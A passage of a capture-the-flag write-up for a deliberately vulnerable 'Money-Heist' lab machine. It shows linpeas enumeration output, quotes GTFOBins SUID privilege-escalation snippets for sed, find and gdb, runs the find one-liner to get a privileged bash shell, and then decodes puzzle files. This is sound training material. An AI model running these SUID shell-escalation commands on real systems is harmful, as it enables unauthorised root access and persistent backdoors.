-rwxr-sr-x 1 root utmp 10K Mar 11  2016 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwxr-sr-x 1 root shadow 35K Apr  9  2018 /sbin/pam_extrausers_chkpwd
-rwxr-sr-x 1 root shadow 35K Apr  9  2018 /sbin/unix_chkpwd

╔══════════╣ Checking misconfigurations of ld.so
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld.so                                                                                                                    
/etc/ld.so.conf                                                                                                                                                                             
Content of /etc/ld.so.conf:                                                                                                                                                                 
include /etc/ld.so.conf.d/*.conf

/etc/ld.so.conf.d
  /etc/ld.so.conf.d/libc.conf                                                                                                                                                               
  - /usr/local/lib                                                                                                                                                                          
  /etc/ld.so.conf.d/x86_64-linux-gnu.conf
  - /lib/x86_64-linux-gnu                                                                                                                                                                   
  - /usr/lib/x86_64-linux-gnu

/etc/ld.so.preload
╔══════════╣ Capabilities                                                                                                                                                                   
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities                                                                                                             
══╣ Current shell capabilities                                                                                                                                                              
CapInh:  0x0000000000000000=                                                                                                                                                                
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
CapAmb:  0x0000000000000000=

══╣ Parent process capabilities
CapInh:  0x0000000000000000=                                                                                                                                                                
CapPrm:  0x0000000000000000=
CapEff:  0x0000000000000000=
CapBnd:  0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,37
CapAmb:  0x0000000000000000=


Files with capabilities (limited to 50):
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr = cap_net_raw+ep

╔══════════╣ AppArmor binary profiles
-rw-r--r-- 1 root root  3310 Apr 13  2016 sbin.dhclient
-rw-r--r-- 1 root root   125 Apr 10  2019 usr.bin.lxc-start
-rw-r--r-- 1 root root   281 Dec  8  2017 usr.lib.lxd.lxd-bridge-proxy
-rw-r--r-- 1 root root 26245 Jul 11  2020 usr.lib.snapd.snap-confine.real
-rw-r--r-- 1 root root  1527 Jan  5  2016 usr.sbin.rsyslogd
-rw-r--r-- 1 root root  1469 Sep  9  2017 usr.sbin.tcpdump

╔══════════╣ Files with ACLs (limited to 50)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls                                                                                                                     
files with acls in searched folders Not Found                                                                                                                                               
╔══════════╣ Files (scripts) in /etc/profile.d/
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#profiles-files                                                                                                           
total 24                                                                                                                                                                                    
drwxr-xr-x  2 root root 4096 Oct  5  2020 .
drwxr-xr-x 97 root root 4096 Nov 19  2020 ..
-rw-r--r--  1 root root  825 Jul 11  2020 apps-bin-path.sh
-rw-r--r--  1 root root  663 May 18  2016 bash_completion.sh
-rw-r--r--  1 root root 1003 Dec 29  2015 cedilla-portuguese.sh
-rw-r--r--  1 root root 1557 Apr 15  2016 Z97-byobu.sh

╔══════════╣ Permissions in init, init.d, systemd, and rc.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#init-init-d-systemd-and-rc-d                                                                                             
                                                                                                                                                                                            
═╣ Hashes inside passwd file? ........... No
═╣ Writable passwd file? ................ No 
═╣ Credentials in fstab/mtab? ........... No 
═╣ Can I read shadow files? ............. No 
═╣ Can I read shadow plists? ............ No 
═╣ Can I write shadow plists? ........... No 
═╣ Can I read opasswd file? ............. No 
═╣ Can I write in network-scripts? ...... No 
═╣ Can I read root folder? .............. No                                                                                                                                                
╔══════════╣ Searching root files in home dirs (limit 30)
/home/                                                                                                                                                                                      
/home/arturo/secret.txt
/home/denver/secret_diary
/home/denver/note.txt
/root/
/var/www
/var/www/html
/var/www/html/img
/var/www/html/img/team.jpeg
/var/www/html/index.html
/var/www/html/BankOfSp41n
/var/www/html/BankOfSp41n/index.html
/var/www/html/BankOfSp41n/images.png
/var/www/html/BankOfSp41n/avatar.jpeg
/var/www/html/BankOfSp41n/login.php
/var/www/html/BankOfSp41n/CR3D5.js
/var/www/html/BankOfSp41n/indax.html
/var/www/html/BankOfSp41n/bank.jpeg
/var/www/html/BankOfSp41n/0x987654
/var/www/html/BankOfSp41n/0x987654/key.txt
/var/www/html/robots
/var/www/html/robots/tokyo.jpeg
/var/www/html/robots.txt
/var/www/html/gate
/var/www/html/gate/gate.exe

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
-rw-r--r-- 1 root root 0 Apr  3 02:30 /var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/cgroup.clone_children                                                 
-rw-r--r-- 1 root root 0 Apr  3 02:30 /var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/notify_on_release
-rw-r--r-- 1 root root 215 Oct 12  2020 /home/arturo/secret.txt

╔══════════╣ Readable files belonging to root and readable by me but not world readable
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                           
/dev/mqueue                                                                                                                                                                                 
/dev/shm
/home/arturo
/run/lock
/run/user/1002
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/linpeas.sh
/tmp/.Test-unix
/tmp/tmux-1002
#)You_can_write_even_more_files_inside_last_directory

/var/crash
/var/lib/lxcfs/cgroup/memory/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/init.scope/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/accounts-daemon.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/acpid.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/apache2.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/apparmor.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/apport.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/atd.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/console-setup.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/cron.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/dbus.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-byx2did-atax2dVBOX_HARDDISK_VB82eacfc8x2d7eedc98fx2dpart5.swap/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-byx2dpath-pcix2d0000:00:0d.0x2datax2d1x2dpart5.swap/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/dev-disk-byx2duuid-1e02d8f8x2d3663x2d49d8x2da527x2d8d702fe09e08.swap/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/dev-hugepages.mount/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/dev-mqueue.mount/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/dev-sda5.swap/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/grub-common.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/ifup@enp0s3.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/irqbalance.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/iscsid.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/keyboard-setup.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/kmod-static-nodes.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/lvm2-lvmetad.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/lvm2-monitor.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/lxcfs.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/lxd-containers.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/mdadm.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/-.mount/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/networking.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/nmbd.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/ondemand.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/open-iscsi.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/polkitd.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/proc-sys-fs-binfmt_misc.mount/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/rc-local.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/resolvconf.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/rsyslog.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/run-user-1002.mount/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/samba-ad-dc.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/setvtrgb.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/snapd.apparmor.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/snapd.seeded.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/ssh.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/sys-fs-fuse-connections.mount/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/sys-kernel-debug.mount/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-journald.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-journal-flush.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-logind.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-modules-load.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-random-seed.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-remount-fs.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-sysctl.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-timesyncd.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-tmpfiles-setup-dev.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-tmpfiles-setup.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-udevd.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-udev-trigger.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-update-utmp.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/systemd-user-sessions.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/system-getty.slice/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/ufw.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/unattended-upgrades.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/var-lib-lxcfs.mount/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/vsftpd.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/system.slice/winbind.service/cgroup.event_control
/var/lib/lxcfs/cgroup/memory/user.slice/cgroup.event_control
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/cgroup.procs
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/init.scope
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/init.scope/cgroup.clone_children
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/init.scope/cgroup.procs
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/init.scope/notify_on_release
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/init.scope/tasks
/var/lib/lxcfs/cgroup/name=systemd/user.slice/user-1002.slice/user@1002.service/tasks
/var/spool/samba
/var/tmp

╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                           
  Group arturo:                                                                                                                                                                             
/tmp/linpeas.sh                                                                                                                                                                             
                            ╔═════════════════════════╗
════════════════════════════╣ Other Interesting Files ╠════════════════════════════                                                                                                         
                            ╚═════════════════════════╝                                                                                                                                     
╔══════════╣ .sh files in path
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#script-binaries-in-path                                                                                                  
/usr/bin/gettext.sh                                                                                                                                                                         

╔══════════╣ Executable files potentially added by user (limit 70)
╔══════════╣ Unexpected in root
/initrd.img                                                                                                                                                                                 
/vmlinuz
/vmlinuz.old
/initrd.img.old

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/etc/samba/dhcp.conf                                                                                                                                                                        
/var/log/syslog
/var/log/auth.log
/var/log/kern.log
/home/arturo/.config/lxc/client.key
/home/arturo/.config/lxc/client.crt

logrotate 3.8.7

╔══════════╣ Files inside /home/arturo (limit 20)
total 44                                                                                                                                                                                    
drwxr-xr-x 6 arturo arturo 4096 Apr  3 02:30 .
drwxr-xr-x 6 root   root   4096 Oct 15  2020 ..
-rw-r--r-- 1 arturo arturo  220 Oct 10  2020 .bash_logout
-rw-rw-r-- 1 arturo arturo   15 Nov 16  2020 .bashr
-rw-r--r-- 1 arturo arturo 3771 Oct 10  2020 .bashrc
drwx------ 2 arturo arturo 4096 Oct 11  2020 .cache
drwxr-x--- 3 arturo arturo 4096 Apr  3 02:30 .config
drwx------ 2 arturo arturo 4096 Apr  3 02:30 .gnupg
drwxrwxr-x 2 arturo arturo 4096 Oct 12  2020 .nano
-rw-r--r-- 1 arturo arturo  655 Oct 10  2020 .profile
-rw-r--r-- 1 root   root    215 Oct 12  2020 secret.txt

╔══════════╣ Files inside others home (limit 20)
/home/denver/.bash_logout                                                                                                                                                                   
/home/denver/secret_diary
/home/denver/note.txt
/home/denver/.profile
/home/denver/.bashrc
/var/www/html/img/team.jpeg
/var/www/html/index.html
/var/www/html/BankOfSp41n/index.html
/var/www/html/BankOfSp41n/images.png
/var/www/html/BankOfSp41n/avatar.jpeg
/var/www/html/BankOfSp41n/login.php
/var/www/html/BankOfSp41n/CR3D5.js
/var/www/html/BankOfSp41n/indax.html
/var/www/html/BankOfSp41n/bank.jpeg
/var/www/html/BankOfSp41n/0x987654/key.txt
/var/www/html/robots/tokyo.jpeg
/var/www/html/robots.txt
/var/www/html/gate/gate.exe

╔══════════╣ Searching installed mail applications
╔══════════╣ Mails (limit 50)
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 610 Oct  5  2020 /etc/xml/catalog.old
-rwxr-xr-x 1 root root 10504 Mar 14  2016 /usr/bin/tdbbackup.tdbtools
-rw-r--r-- 1 root root 7867 May  6  2015 /usr/share/doc/telnet/README.telnet.old.gz
-rw-r--r-- 1 root root 298768 Dec 29  2015 /usr/share/doc/manpages/Changes.old.gz
-rw-r--r-- 1 root root 665 Apr 16  2016 /usr/share/man/man8/vgcfgbackup.8.gz
-rw-r--r-- 1 root root 1624 Mar 14  2016 /usr/share/man/man8/tdbbackup.tdbtools.8.gz
-rw-r--r-- 1 root root 10542 Oct  5  2020 /usr/share/info/dir.old
-rw-r--r-- 1 root root 1758 Mar 24  2020 /usr/share/sosreport/sos/plugins/ovirt_engine_backup.py
-rw-r--r-- 1 root root 1496 Oct  5  2020 /usr/share/sosreport/sos/plugins/__pycache__/ovirt_engine_backup.cpython-35.pyc
-rwxr-xr-x 1 root root 226 Apr 15  2016 /usr/share/byobu/desktop/byobu.desktop.old
-rw-r--r-- 1 root root 0 Jul  1  2020 /usr/src/linux-headers-4.4.0-186-generic/include/config/net/team/mode/activebackup.h
-rw-r--r-- 1 root root 0 Jul  1  2020 /usr/src/linux-headers-4.4.0-186-generic/include/config/wm831x/backup.h
-rw-r--r-- 1 root root 191098 Jul  1  2020 /usr/src/linux-headers-4.4.0-186-generic/.config.old
-rw-r--r-- 1 root root 35792 May  9  2018 /usr/lib/open-vm-tools/plugins/vmsvc/libvmbackup.so
-rw-r--r-- 1 root root 128 Oct  5  2020 /var/lib/sgml-base/supercatalog.old
-rw-r--r-- 1 root root 9078 Jul  1  2020 /lib/modules/4.4.0-186-generic/kernel/drivers/net/team/team_mode_activebackup.ko
-rw-r--r-- 1 root root 9038 Jul  1  2020 /lib/modules/4.4.0-186-generic/kernel/drivers/power/wm831x_backup.ko

╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/mlocate/mlocate.db: regular file, no read permission                                                                                                                         

╔══════════╣ Web files?(output limit)
/var/www/:                                                                                                                                                                                  
total 12K
drwxr-xr-x  3 root root 4.0K Oct  5  2020 .
drwxr-xr-x 14 root root 4.0K Oct  5  2020 ..
drwxr-xr-x  6 root root 4.0K Nov 16  2020 html

/var/www/html:
total 32K
drwxr-xr-x 6 root root 4.0K Nov 16  2020 .
drwxr-xr-x 3 root root 4.0K Oct  5  2020 ..

╔══════════╣ All relevant hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rw-r--r-- 1 root root 1391 Oct  5  2020 /etc/apparmor.d/cache/.features                                                                                                                    
-rw------- 1 root root 0 Aug 10  2020 /etc/.pwd.lock
-rw-r--r-- 1 root root 220 Sep  1  2015 /etc/skel/.bash_logout
-rw-r--r-- 1 arturo arturo 220 Oct 10  2020 /home/arturo/.bash_logout
-rw-rw-r-- 1 arturo arturo 15 Nov 16  2020 /home/arturo/.bashr
-rw-r--r-- 1 root root 0 Apr  2 22:34 /run/network/.ifstate.lock

╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)
-rwxrwxr-x 1 arturo arturo 860337 Jul  7  2024 /tmp/linpeas.sh                                                                                                                              

╔══════════╣ Searching *password* or *credential* files in home (limit 70)
/bin/systemd-ask-password                                                                                                                                                                   
/bin/systemd-tty-ask-password-agent
/etc/pam.d/common-password
/usr/lib/git-core/git-credential
/usr/lib/git-core/git-credential-cache
/usr/lib/git-core/git-credential-cache--daemon
/usr/lib/git-core/git-credential-store
  #)There are more creds/passwds files in the previous parent folder

/usr/lib/grub/i386-pc/password.mod
/usr/lib/grub/i386-pc/password_pbkdf2.mod
/usr/lib/python2.7/dist-packages/samba/credentials.so
/usr/lib/python2.7/dist-packages/samba/tests/credentials.py
/usr/lib/python2.7/dist-packages/samba/tests/credentials.pyc
/usr/lib/x86_64-linux-gnu/libsamba-credentials.so.0
/usr/lib/x86_64-linux-gnu/libsamba-credentials.so.0.0.1
/usr/lib/x86_64-linux-gnu/samba/ldb/local_password.so
/usr/lib/x86_64-linux-gnu/samba/ldb/password_hash.so
/usr/lib/x86_64-linux-gnu/samba/libcmdline-credentials.so.0
/usr/share/dns/root.key
/usr/share/doc/git/contrib/credential
/usr/share/doc/git/contrib/credential/gnome-keyring/git-credential-gnome-keyring.c
/usr/share/doc/git/contrib/credential/netrc/git-credential-netrc
/usr/share/doc/git/contrib/credential/osxkeychain/git-credential-osxkeychain.c
/usr/share/doc/git/contrib/credential/wincred/git-credential-wincred.c
/usr/share/locale-langpack/en_AU/LC_MESSAGES/ubuntuone-credentials.mo
/usr/share/locale-langpack/en_GB/LC_MESSAGES/ubuntuone-credentials.mo
/usr/share/man/man1/git-credential.1.gz
/usr/share/man/man1/git-credential-cache.1.gz
/usr/share/man/man1/git-credential-cache--daemon.1.gz
/usr/share/man/man1/git-credential-store.1.gz
  #)There are more creds/passwds files in the previous parent folder

/usr/share/man/man7/gitcredentials.7.gz
/usr/share/man/man8/systemd-ask-password-console.path.8.gz
/usr/share/man/man8/systemd-ask-password-console.service.8.gz
/usr/share/man/man8/systemd-ask-password-wall.path.8.gz
/usr/share/man/man8/systemd-ask-password-wall.service.8.gz
  #)There are more creds/passwds files in the previous parent folder

/usr/share/pam/common-password.md5sums
/var/cache/debconf/passwords.dat
/var/lib/pam/password

╔══════════╣ Checking for TTY (sudo/su) passwords in audit logs
                                                                                                                                                                                            
╔══════════╣ Searching passwords inside logs (limit 70)
2020-08-10 18:14:40 configure base-passwd:amd64 3.5.39 3.5.39                                                                                                                               
2020-08-10 18:14:40 install base-passwd:amd64 <none> 3.5.39
2020-08-10 18:14:40 status half-configured base-passwd:amd64 3.5.39
2020-08-10 18:14:40 status half-installed base-passwd:amd64 3.5.39
2020-08-10 18:14:40 status installed base-passwd:amd64 3.5.39
2020-08-10 18:14:40 status unpacked base-passwd:amd64 3.5.39
2020-08-10 18:14:45 status half-configured base-passwd:amd64 3.5.39
2020-08-10 18:14:45 status half-installed base-passwd:amd64 3.5.39
2020-08-10 18:14:45 status unpacked base-passwd:amd64 3.5.39
2020-08-10 18:14:45 upgrade base-passwd:amd64 3.5.39 3.5.39
2020-08-10 18:14:55 install passwd:amd64 <none> 1:4.2-3.1ubuntu5
2020-08-10 18:14:55 status half-installed passwd:amd64 1:4.2-3.1ubuntu5
2020-08-10 18:14:56 status unpacked passwd:amd64 1:4.2-3.1ubuntu5
2020-08-10 18:15:02 configure base-passwd:amd64 3.5.39 <none>
2020-08-10 18:15:02 status half-configured base-passwd:amd64 3.5.39
2020-08-10 18:15:02 status installed base-passwd:amd64 3.5.39
2020-08-10 18:15:02 status unpacked base-passwd:amd64 3.5.39
2020-08-10 18:15:12 configure passwd:amd64 1:4.2-3.1ubuntu5 <none>
2020-08-10 18:15:12 status half-configured passwd:amd64 1:4.2-3.1ubuntu5
2020-08-10 18:15:12 status installed passwd:amd64 1:4.2-3.1ubuntu5
2020-08-10 18:15:12 status unpacked passwd:amd64 1:4.2-3.1ubuntu5
2020-08-10 18:16:22 configure passwd:amd64 1:4.2-3.1ubuntu5.4 <none>
2020-08-10 18:16:22 status half-configured passwd:amd64 1:4.2-3.1ubuntu5
2020-08-10 18:16:22 status half-configured passwd:amd64 1:4.2-3.1ubuntu5.4
2020-08-10 18:16:22 status half-installed passwd:amd64 1:4.2-3.1ubuntu5
2020-08-10 18:16:22 status installed passwd:amd64 1:4.2-3.1ubuntu5.4
2020-08-10 18:16:22 status unpacked passwd:amd64 1:4.2-3.1ubuntu5
2020-08-10 18:16:22 status unpacked passwd:amd64 1:4.2-3.1ubuntu5.4
2020-08-10 18:16:22 upgrade passwd:amd64 1:4.2-3.1ubuntu5 1:4.2-3.1ubuntu5.4
 base-passwd depends on libc6 (>= 2.8); however:
 base-passwd depends on libdebconfclient0 (>= 0.145); however:
Description: Set up users and passwords
dpkg: base-passwd: dependency problems, but configuring anyway as you requested:
Preparing to unpack .../base-passwd_3.5.39_amd64.deb ...
Preparing to unpack .../passwd_1%3a4.2-3.1ubuntu5_amd64.deb ...
Selecting previously unselected package base-passwd.
Selecting previously unselected package passwd.
Setting up base-passwd (3.5.39) ...
Setting up passwd (1:4.2-3.1ubuntu5) ...
Shadow passwords are now on.
Unpacking base-passwd (3.5.39) ...
Unpacking base-passwd (3.5.39) over (3.5.39) ...
Unpacking passwd (1:4.2-3.1ubuntu5) ...

                                ╔════════════════╗
════════════════════════════════╣ API Keys Regex ╠════════════════════════════════                                                                                                          
                                ╚════════════════╝                                                                                                                                          
Regexes to search for API keys aren't activated, use param '-r' 


arturo@Money-Heist:/tmp$ 

```


### Linpeas conclusion

Yikes... so much wall of text... Anyway these critical files.
- /sed
- /find
- gdb

### [GTFOBins](https://gtfobins.github.io/)

```sh
# SUID sed
: 'If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.'
sudo install -m =xs $(which sed) .

LFILE=file_to_read
./sed -e '' "$LFILE"

# SUID find
: 'If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.'
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit


# SUID gdb
: 'If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- This requires that GDB is compiled with Python support.'
sudo install -m =xs $(which gdb) .

./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit


```

So we try out the **find** exploit, but change the *"sh"* part with *"bash"*

```sh
arturo@Money-Heist:/tmp$ find . -exec /bin/bash -p \; -quit
bash-4.3$ help
GNU bash, version 4.3.48(1)-release (x86_64-pc-linux-gnu)
These shell commands are defined internally.  Type `help' to see this list.
Type `help name' to find out more about the function `name'.
Use `info bash' to find out more about the shell in general.
Use `man -k' or `info' to find out more about commands not in this list.
```

```sh
# Change directory to the Denver user 
bash-4.3$ cd denver/

# Check the content
bash-4.3$ ls -al
total 28
drwxrwx--- 2 denver denver 4096 Nov 19  2020 .
drwxr-xr-x 6 root   root   4096 Oct 15  2020 ..
-rw-r--r-- 1 denver denver  220 Oct 10  2020 .bash_logout
-rw-r--r-- 1 denver denver 3771 Oct 10  2020 .bashrc
-rw-r--r-- 1 root   root    302 Oct 14  2020 note.txt
-rw-r--r-- 1 denver denver  655 Oct 10  2020 .profile
-rw-r--r-- 1 root   root    284 Nov 19  2020 secret_diary

# Read trhe note
bash-4.3$ cat note.txt

================================================================
Denver to others:

        DAMN it!!!! How Arturo gets the Phone ?
        I caught him when he tried to leak our identity in police headquater!! 
        Now I keep him in other room !!

=================================================================


bash-4.3$ 

```

For some weird reason it is not possible to access home/Nairobi

#### secret_diary
```sh
bash-4.3$ cat secret_diary

They all understimate me, mainly Nairobi and Tokyo,  they think only they can lead the team and I can't. 
Tokyo is like Maserati you know. But I hate both of them,
Now I leave a thing on browser which should be secret, Now Nairobi will resposible for this...

/BankOfSp41n/0x987654/
```

/BankOfSp41n/0x987654/ is clue for the URL, this path contains the file of "key.txt"

#### key.txt
```key
Don't trust anyone so quickly, until can see everything clearly!!!


.-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / .-.-.- / / .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / .-.-.- / / .-.-.- / .-.-.- / / .-.-.- .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- / / .-.-.- / .-.-.- / / .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- / .-.-.- .-.-.- / / .-.-.- .-.-.- / .-.-.- / / .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.- / / .-.-.- / .-.-.- .-.-.- .-.-.- / / .-.-.- .-.-.- .-.-.- / .-.-.- .-.-.- .-.-.- .-.-.- .-.-.-
```

[Morse Code Translator | Morse Code World](https://morsecode.world/international/translator.html)

```
.. ..... ..... . . .... ..... . . . ... ... .. ... .. ... . . .. ..... ... .. .. . . ..... . ..... ... ..... . ... ... .....
```

##### Invalid Morse Code



`I55EEH5EEESSISISEEI5SIIEE5E5S5ESS5`

#### It might be tap code instead of morse code!? 🤯

The **tap code** is a simple way to encode messages. The messages are sent by translating letters into knock sounds. It was used by prisoners in Vietnam, and is sometimes called knock code or Smitty code. It uses a 5x5 square to assign two numbers (row and column) to each letter. Then the sender knocks as many times as each number, and makes pauses between the numbers.

